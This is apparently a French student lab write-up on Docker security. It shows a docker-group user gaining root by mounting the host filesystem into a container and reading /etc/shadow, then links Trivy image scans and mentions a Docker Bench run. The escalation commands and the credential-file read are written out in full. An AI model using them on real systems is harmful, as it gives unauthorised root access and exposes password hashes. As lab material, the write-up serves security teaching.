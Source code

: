 🌞 Prouvez que vous pouvez devenir root

Notre utilisateur est bien dans le groupe docker :
```
❯ whoami
carambole
❯ groups
carambole adm dialout cdrom floppy sudo audio dip video plugdev users netdev bluetooth wireshark lpadmin scanner kaboxer docker
```

On peu juste monter tout le système de fichier dans le docker :
```
❯ docker run -v /:/mnt -it ubuntu
Unable to find image 'ubuntu:latest' locally
latest: Pulling from library/ubuntu
5a7813e071bf: Pull complete 
Digest: sha256:72297848456d5d37d1262630108ab308d3e9ec7ed1c3286a32fe09856619a782
Status: Downloaded newer image for ubuntu:latest

root@a6eb3d85e55c:/# cat /mnt/etc/shadow
root:!:20126:0:99999:7:::
daemon:*:20126:0:99999:7:::
bin:*:20126:0:99999:7:::
sys:*:20126:0:99999:7:::
sync:*:20126:0:99999:7:::
[etc...]
```

🌞 Utilisez Trivy
- [scan wikijs](./scan_wikijs)
- [scan postgres](./scan_postgres)
- [scan nginx](./scan_nginx)

🌞 Utilisez l'outil Docker Bench for Security
Fait.